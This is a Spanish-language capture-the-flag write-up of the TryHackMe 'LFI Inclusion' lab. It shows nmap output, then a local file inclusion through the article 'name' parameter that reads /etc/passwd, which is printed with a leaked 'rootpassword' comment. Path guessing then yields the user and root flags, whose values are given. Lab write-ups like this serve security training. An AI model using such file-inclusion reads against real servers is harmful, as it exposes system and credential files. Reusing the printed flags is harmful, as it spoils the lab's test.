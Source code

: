 ```yaml
---
layout: post
title: Tryhackme - LFI inclusion
autor: S3cureroy
date: 2023-08-08
categories: [CTF, Tryhackme]
tags: [ LFI , enumeración , web , passwd ]
---
```


La entrada de la máquina LFI Inclusión de Tryhackme es corta, puesto que realmente, no se deben seguir los pasos habituales, como la intrusión y posterior escalada de privilegios.

Esta máquina sirve para desarrollar una técnica en concreto, y además, no dispone de medidas de seguridad que permitan filtrar la petición que se envía al servidor, por lo que facilita mucho el compromiso.

---

## Enumeración.

Como la mayoría de las máquinas, se comienza ejecutando una enumeración de los servicios y puertos mediante la herramienta **nmap**, obteniendo los puertos pertenecientes a SSH y HTTP.

```bash
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-27 09:31 EDT
Stats: 0:00:02 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 50.60% done; ETC: 09:31 (0:00:01 remaining)
Stats: 0:00:09 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 50.00% done; ETC: 09:31 (0:00:06 remaining)
Nmap scan report for 10.10.57.141
Host is up (0.052s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e6:3a:2e:37:2b:35:fb:47:ca:90:30:d2:14:1c:6c:50 (RSA)
|   256 73:1d:17:93:80:31:4f:8a:d5:71:cb:ba:70:63:38:04 (ECDSA)
|_  256 d3:52:31:e8:78:1b:a6:84:db:9b:23:86:f0:1f:31:2a (ED25519)
80/tcp open  http    Werkzeug httpd 0.16.0 (Python 3.6.9)
|_http-server-header: Werkzeug/0.16.0 Python/3.6.9
|_http-title: My blog
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.23 seconds
```

### WEB.
 
Entrando mediante el protocolo HTTP se observa que hay desplegado un blog, y revisando todos los enlaces disponibles, se accede a http://10.10.143.249/article?name=lfiattack

El parámetro "lfiattack" da pistas de qué hay que modificar, y cambiándolo por la ruta relativa de **/etc/passwd**, se obtiene el contenido del fichero.  
![LFI1][LFI1] 

```
root:x:0:0:root:/root:/bin/bash 
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin 
bin:x:2:2:bin:/bin:/usr/sbin/nologin 
sys:x:3:3:sys:/dev:/usr/sbin/nologin 
sync:x:4:65534:sync:/bin:/bin/sync 
games:x:5:60:games:/usr/games:/usr/sbin/nologin 
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin 
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin 
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin 
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin 
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin 
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin 
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin 
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin 
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin 
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin 
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin 
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin 
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin 
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin 
syslog:x:102:106::/home/syslog:/usr/sbin/nologin 
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin 
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin 
lxd:x:105:65534::/var/lib/lxd/:/bin/false 
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin 
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin 
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin 
pollinate:x:109:1::/var/cache/pollinate:/bin/false 
falconfeast:x:1000:1000:falconfeast,,,:/home/falconfeast:/bin/bash 
#falconfeast:rootpassword sshd:x:110:65534::/run/sshd:/usr/sbin/nologin 
mysql:x:111:116:MySQL Server,,,:/nonexistent:/bin/false 
```

En el listado de usuarios se observa que existe el usuario **falconfeast** con uid 1000 y que además, tiene el directorio principal en la ruta /home/falconfeast. 

Se busca la flag del usuario en dicho directorio (se presupone que el fichero se llama user.txt, teniendo suerte y obteniendo **60989655118397345799**)   

![LFI2][LFI2]

## Flag de root.

Habiendo tenido suerte, se decide buscar la flag de root, suponiendo que ésta se encuentra en el directorio principal que aparece en el listado, y que el nombre del fichero es **root.txt**, obteniendo el siguiente flag (**42964104845495153909**)  

![LFI3][LFI3]

Como se puede ver, en este caso no es necesario escalar privilegios, ya que el propio usuario que corre el servicio web tiene permisos para ver el contenido del directorio root.

Sé que en esta situación, se podría intentar obtener una clave privada SSH, probar la contraseña "rootpassword" del comentario que se encuentra en el fichero passwd, o incluso probar otros métodos de acceso a la máquina.

Como se obtienen las dos flags mediante el método para el que está concebida la máquina, no lo considero necesario.

Espero que os haya gustado, y recordad las redes sociales si queréis contactar conmigo.

Salu2!!!

[LFI1]: https://i.imgur.com/BNTwheR.png
[LFI2]: https://i.imgur.com/NkRmwtQ.png
[LFI3]: https://i.imgur.com/tpTBd3M.png